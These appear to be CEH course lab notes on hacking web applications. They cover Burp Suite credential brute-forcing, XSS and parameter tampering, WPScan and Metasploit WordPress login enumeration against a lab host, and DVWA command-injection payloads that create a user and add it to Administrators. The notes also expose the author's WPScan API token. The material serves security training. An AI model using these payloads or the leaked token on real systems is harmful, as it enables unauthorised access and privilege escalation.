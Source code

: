 # 14 - Hacking Web Apps

## **Module 14: Hacking Web Applications**

### **Lab2-Task1: Perform a Brute-force Attack using Burp Suite**

* Set proxy for browser: 127.0.0.1:8080
* Burpsuite
* Type random credentials
* capture the request, right click-\&gt;send to Intrucder
* Intruder-\&gt;Positions
* Clear $
* Attack type: Cluster bomb
* select account and password value, Add $
* Payloads: Load wordlist file for set 1 and set 2
* start attack
* **filter status==302**
* open the raw, get the credentials
* recover proxy settings

### **Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

* Log in a website, change the parameter value (id )in the URL
* Conduct a XSS attack: Submit script codes via text area

### **Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit**

* **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH) **--plugins-detection aggressive --enumerate u**
  * **--enumerate u: Specify the enumeration of users**
  * **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  * **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
* service postgresql start
* msfconsole
* **use auxiliary/scanner/http/wordpress\_login\_enum**
* show options
* **set PASS\_FILE password.txt**
* **set RHOST 10.10.10.16**
* **set RPORT 8080**
* **set TARGETURI** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH)
* **set USERNAME admin**
* run
* Find the credential

### **Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

* If found command injection vulnerability in an input textfield
* \| hostname
* \| whoami
* **| tasklist| Taskkill /PID /F**
  * **/PID: Process ID value od the process**
  * **/F: Forcefully terminate the process**
* \| dir C:\\
* **| net user**
* **| net user user001 /Add**
* **| net user user001**
* **| net localgroup Administrators user001 /Add**
* Use created account user001 to log in remotely
